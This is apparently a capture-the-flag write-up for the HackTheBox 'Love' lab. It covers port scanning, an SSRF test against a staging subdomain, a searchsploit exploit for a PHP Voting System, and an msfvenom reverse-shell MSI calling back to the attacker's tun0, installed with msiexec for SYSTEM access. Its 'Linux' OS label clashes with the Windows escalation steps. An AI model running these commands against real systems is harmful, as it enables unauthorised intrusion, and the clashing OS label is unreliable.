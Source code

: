 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

---

## 🔍 Recon
```bash
nmap -sV -sC -oA scan/result $IP
```
- Found services:
  - [HTTP](HTTP.md) (80, 5000)
  - HTTPS
  - [SMB](SMB)
  - [MySQL](MySQL.md)

Update `/etc/hosts`:
```bash
echo "$IP love.htb staging.love.htb" | sudo tee -a /etc/hosts
```

---

## 🕵️‍ HTTP Enumeration
```bash
gobuster dir --url "http://love.htb/" -w /usr/share/dirb/wordlists/small.txt -x php,txt,config -o http.txt
```
- Result: Nothing interesting found

Search for vulnerable software:
```bash
searchsploit "Voting System"
```
- Found exploit for PHP Voting System (needs credentials)

---

## 📉 Port 5000
- Access denied (403)

---

## 📃 HTTPS Certificate
- View for domain/subdomain info

---

## 📢 staging.love.htb (HTTP)
- Has a URL input field
- Test for SSRF:

```http
GET / HTTP/1.1
Host: staging.love.htb
...
Input URL: http://127.0.0.1:5000
```
- ✅ SSRF Works

---

## 🔨 Exploitation
Copy exploit:
```bash
searchsploit -m 49445.py
```
Edit and run exploit to leverage SSRF and gain access.

---

## 🥵 Privilege Escalation
- Upload **WinPEAS** for local enumeration.
- Detected: `msiexec` install privileges ✅

Generate reverse shell payload:
```bash
msfvenom -p windows/x64/shell_reverse_tcp lhost=tun0 lport=9002 -f msi -o exploit2.msi
```

Upload to target, then execute:
```bash
msiexec /quiet /qn /i exploit2.msi
```

---

## ✅ Root Access
- Reverse shell received with NT AUTHORITY privileges

---

## 📑 Summary
- Used SSRF on subdomain to reach an internal service
- Exploited a vulnerable Voting System
- Privilege escalation via MSI installation permissions